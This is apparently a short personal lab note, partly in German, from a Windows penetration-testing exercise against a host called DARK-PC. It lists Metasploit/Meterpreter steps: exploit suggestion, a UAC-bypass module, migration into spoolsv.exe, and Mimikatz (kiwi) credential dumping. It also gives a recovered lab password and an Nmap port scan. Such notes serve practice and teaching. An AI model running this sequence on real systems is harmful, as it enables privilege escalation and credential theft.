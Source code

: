 # Basic Pentesting

IP = 10.10.90.191

# Scanning

in der Sessionn:

getuid

sysinfo

ps

nach exploits suchen: 
run post/multi/recon/local_exploit_suggester

use exploit/windows/local/bypassuac_eventvwr

ip addr

set lhost

run

in shell: 
getprivs

ps

migrate -N spoolsv.exe

getuid

load kiwi

for kiwi commannds: 
help

creds_all

### Hostname:

DARK-PC

### OS:

Windows

### Users / Passwords:

Dark      Dark-PC    Password01!

### Ports:

    [*] Nmap: 135/tcp   open  msrpc              syn-ack Microsoft Windows RPC
    [*] Nmap: 139/tcp   open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
    [*] Nmap: 445/tcp   open  microsoft-ds       syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
    [*] Nmap: 3389/tcp  open  ssl/ms-wbt-server? syn-ack
    [*] Nmap: 5357/tcp  open  http               syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    [*] Nmap: 8000/tcp  open  http               syn-ack Icecast streaming media server
    [*] Nmap: 49152/tcp open  msrpc              syn-ack Microsoft Windows RPC
    [*] Nmap: 49153/tcp open  msrpc              syn-ack Microsoft Windows RPC
    [*] Nmap: 49154/tcp open  msrpc              syn-ack Microsoft Windows RPC
    [*] Nmap: 49158/tcp open  msrpc              syn-ack Microsoft Windows RPC
    [*] Nmap: 49159/tcp open  msrpc              syn-ack Microsoft Windows RPC
    [*] Nmap: 49160/tcp open  msrpc 
